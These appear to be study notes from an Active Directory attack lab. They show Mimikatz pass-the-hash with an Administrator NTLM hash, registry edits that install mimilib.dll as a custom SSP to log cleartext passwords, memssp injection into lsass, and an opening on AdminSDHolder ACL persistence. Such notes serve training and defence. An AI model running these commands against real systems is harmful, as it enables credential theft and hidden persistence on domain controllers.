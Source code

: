 Use below command to pass the hash:

~~~
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"' 
ls \\dcorp-dc\C$
~~~

#### Custom SSP

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:
 NTLM
 Kerberos
 Wdigest
 CredSSP

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account passwords in clear text on the target server

Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:

~~~
$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
~~~

Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable)**:

~~~
Invoke-Mimikatz -Command '"misc::memssp"'
~~~

All local logons on the DC are logged to:

~~~
C:\Windows\system32\mimilsa.log
~~~

### Persistence using ACLs - AdminSDHolder

- Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called **Protected Groups**).

- **Security Descriptor Propagator** (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of **AdminSDHolder** and any differences are overwritten on the object ACL.

![[Pasted image 20241127172159.png]]
